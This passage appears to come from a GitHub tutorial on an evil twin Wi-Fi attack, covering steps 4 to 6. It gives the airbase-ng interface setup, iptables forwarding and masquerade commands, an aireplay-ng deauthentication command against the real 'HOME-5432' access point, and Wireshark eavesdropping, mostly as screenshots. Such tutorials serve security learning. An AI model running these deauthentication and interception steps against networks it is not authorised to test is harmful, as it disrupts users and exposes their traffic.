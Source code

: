 						![image](https://user-images.githubusercontent.com/88451628/172545593-378e2535-bae4-46c1-a9df-fcf1b2848d75.png)						
Step 4: Configure Interface at0
As we saw in the last step, airbase-ng sets the evil twin on interface at0. We must bring this interface up, configure it, enable IP forwarding, and other parameters. Open up a new terminal, and execute the following commands. Here is what these commands do:
•	ifconfig at0 up brings up the at0 interface. You can verify it’s now up using the     ifconfig command.
•	ifconfig at0 10.0.0.1 netmask 255.255.255.0 sets the at0 interface IP address as 10.0.0.1 and the subnet mask as /24.
•	route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1 creates a static route in our routing table so that any traffic from out clients will be forwarded to the real gateway at 10.0.0.1, which is a part of the 10.0.0.0/24 network.
•	iptables -P FORWARD ACCEPT creates a policy to accept forwarding in the chain target. This makes our Linux machine act like a router (even though it isn’t).
•	iptables -t nat -A POSTROUTING -o wlan0mon -j MASQUERADE allows us to route outbound traffic without disrupting the normal flow of traffic on the network. The masquerade option kind of acts like Source NAT. See here for more information
•	.echo 1 > /proc/sys/net/ipv4/ip_forward enables IP forwarding. The “1” enables IP forwarding while a “0” disables it
 
![image](https://user-images.githubusercontent.com/88451628/172545556-97974bc1-531d-4168-b5da-f736a8a0b1f2.png)

				






![image](https://user-images.githubusercontent.com/88451628/172545531-7211d79b-b359-41fa-a60e-5765e4b1ec42.png)

					






![image](https://user-images.githubusercontent.com/88451628/172545515-b3201671-5a76-4380-9136-d84bf242052d.png)
•	We can see a client tried to connect to AP.
 
                                           


![image](https://user-images.githubusercontent.com/88451628/172545469-e2220c6f-ec6a-4f11-bd23-d65dbda5560b.png)




Step 5: Kick Wireless Clients Off the Legitimate AP
One of the final steps here is to kick wireless clients off my legitimate AP, in my case, that’s the real HOME-5432 network. We can do this by using aireplay-ng. By executing the aireplay-ng –deauth 50 -a [BSSID of real AP] wlan0mon, we can send 50 802.11 deauthentication frames onto the HOME-5432 network.
 ![image](https://user-images.githubusercontent.com/88451628/172545434-4629b258-6bf4-4401-9123-32bd95647b1f.png)

						
Step 6: Perform Eavesdropping using wireshark.
if we want to see more in details, we can run Wireshark
 ![image](https://user-images.githubusercontent.com/88451628/172545393-d1c9146b-a904-4e66-8676-76e713976c3a.png)

